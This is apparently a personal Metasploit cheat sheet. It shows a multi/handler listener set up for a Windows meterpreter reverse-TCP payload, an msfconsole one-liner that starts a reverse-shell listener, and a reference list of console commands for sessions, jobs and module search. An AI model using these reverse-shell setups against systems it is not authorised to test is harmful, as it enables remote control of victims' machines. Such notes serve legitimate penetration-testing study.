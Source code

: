 ## Simple and useful

Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```ruby
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```
Or linux one-liner
```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST $interface; set LPORT 4444;exploit"
```

Web Delivery [[Crackmapexec-Cheatsheet]] `smb` Module `met_inject`

## Commands

```ruby
# Display splash screen summary
help
show -h

# Check the postgresql metasploit database
db_status 
# List all workspaces
workspace
# Create a workspace
workspace -a $name
# Use database backend commands
db_nmap $RegularNmapArgs
# List all discovered hosts
hosts
# List all discovered services
services
services -p 80 # lists all discovered hosts running services 

background		# background a session
				# OR CTRL+Z
check			# check if system is vulnerable(SOME MODULES HAVE THIS)
exploit					# launch the exploit
	-z					# background exploit when run
info <module-name> 		# display inforamtion about <module-name>
						# -j for json, -d markdown
jobs					# display jobs
	–k					# kill jobID
	
options					# displays options
run -z -j               # Background job and prevent automatic interaction with session
search					# searches
search type:<module>  	# search by module
search name:<name>	 	# search by name

sessions				# list all sessions
	-i					# interact with session number
	-k <num>            # Kill a session by id
    -K                  # Kill all sessions
set						# set data for options
setg					# set global data
show	# display parametres: all, encoders, nops, exploits, payloads, auxiliary, post, plugins, info, options
		# module-specific: missing, advanced, evasion, targets, actions
```